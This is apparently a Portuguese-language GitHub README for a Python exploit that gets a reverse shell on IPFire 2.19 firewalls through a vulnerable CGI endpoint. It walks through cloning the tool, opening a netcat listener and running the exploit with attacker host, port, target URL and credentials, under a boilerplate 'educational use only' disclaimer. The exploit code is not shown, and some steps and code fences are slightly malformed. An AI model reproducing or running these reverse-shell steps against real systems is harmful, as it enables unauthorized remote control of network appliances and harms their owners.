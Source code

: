 # IPFire Reverse Shell Exploit

![Small Bypass](https://github.com/BrotherOfJhonny/IPFire_2.19/assets/28454566/77343b75-287b-461c-9b44-bb0fb2849215)



Este é um script em Python para explorar uma vulnerabilidade em instalações do IPFire que permite a execução de um shell reverso. Ele é destinado apenas para fins educacionais e de teste. Use com responsabilidade e apenas em ambientes onde você tem permissão.

## Requisitos

- Python 3.x
- Bibliotecas Python: `requests`

## Uso

Para usar o script, siga as instruções abaixo:

1. Clone o repositório:

   ```bash
   git clone https://github.com/BrotherOfJhonny/IPFire_2.19.git

2. Acesse a pasta:
 ``
cd IPFire_2.19
 ``

4. Em outro terminal execute o netcat com os dados da porta que irá receber a conexão reversa.

 ```bash
nc -lvnp 4114
 ```

5. Execute seguindo as intruções:

  ```bash
python ipfireExpl3.py --revhost SEU_HOST --revport SUA_PORTA --url URL_VULNERAVEL --u SEU_USUARIO --p SUA_SENHA
 ```

Substitua SEU_HOST, SUA_PORTA, URL_VULNERAVEL,  ```exemplo: https://10.2.2.1:444/cgi-bin/ids.cgi ```, SEU_USUARIO e SUA_SENHA pelos valores apropriados.

## Aviso Legal
Este script é fornecido apenas para fins educacionais e de teste. Não é destinado a uso malicioso. Use-o apenas em sistemas onde você tem permissão para testar a vulnerabilidade. O autor não é responsável por qualquer uso indevido deste script.

## Contribuições
Contribuições são bem-vindas! Se você deseja melhorar ou estender este projeto, sinta-se à vontade para enviar um pull request.
